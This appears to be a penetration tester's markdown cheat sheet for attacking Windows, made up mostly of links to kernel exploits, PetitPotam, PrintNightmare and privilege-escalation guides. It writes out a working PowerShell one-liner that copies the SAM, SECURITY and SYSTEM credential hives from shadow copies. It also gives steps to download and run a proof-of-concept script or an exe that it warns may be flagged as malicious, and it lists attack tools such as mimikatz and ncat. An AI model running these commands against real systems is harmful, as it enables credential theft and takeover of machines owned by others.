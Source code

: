 # Windows Commands:
1. https://ss64.com/nt/
2. https://ss64.com/ps/

# Living Off the Land:
https://lolbas-project.github.io/

# Windows Exploits:
1. Windows Kernel Exploits — https://github.com/SecWiki/windows-kernel-exploits
2. LOLBins - https://lolbas-project.github.io/#
3. Windows Takeover completely from Linux — https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux
4. Windows Credentials — https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them
5. Microsoft Won't Fix List — https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md
6. https://github.com/GossiTheDog/HiveNightmare
7. https://github.com/GossiTheDog/SystemNightmare
8. https://github.com/leechristensen/SpoolSample
9. https://github.com/topotam/PetitPotam
10. https://github.com/antonioCoco/RemotePotato0
11. https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH
12. https://github.com/cube0x0/CVE-2021-1675
13. maps Windows APIs to common techniques used by malware - https://malapi.io/

### HiveNightmare Powershell One Liner:
https://twitter.com/splinter_code/status/1420546784250769408
```
powershell -c "foreach ($i in 1..10){$p='\\.\HarddiskVolumeShadowCopy{0}\windows\system32\config\' -f $i; gi $($p+'SAM'),$($p+'SECURITY'),$($p+'SYSTEM') -ErrorAction SilentlyContinue | % {cp $_.FullName $($_.BaseName+$i)}}"
```



### System Nightmare Incognito 
Install Packages if Needed.
```
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade Pillow
or
python -m pip install --upgrade pip
python -m pip install --upgrade Pillow
Install Bitstring
python3 -m pip install --upgrade bitstring
```
Download: 
1. https://raw.githubusercontent.com/ciwen3/Public/master/python/steganography/Steganograpy-PoC.py
2. https://github.com/ciwen3/Public/raw/master/python/steganography/resources/rednightmare.PNG

In CMD run:
```
python ./Steganograpy-Poc.py ./rednightmare.PNG
```
Alternate:
download the exe (might get flagged as malicious)
https://github.com/ciwen3/Public/blob/master/python/steganography/Steganograpy-PoC.exe?raw=true

# Windows AD take over completely from Linux:
https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux

# Windows Login Credentials:
https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them

# Checklist:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

# Windows Privilege Escalation:
https://www.fuzzysecurity.com/tutorials/16.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# Find Windows 10 Product Key on a New Computer:
```
wmic path SoftwareLicensingService get OA3xOriginalProductKey
```

# Windows Resources in Kali:
```
/usr/share/windows-resources$ ls

binaries  
hyperion  
mimikatz  
ncat      
nishang  
ollydbg  
powersploit  
sbd          
sqldict  
tftpd32
wce
```
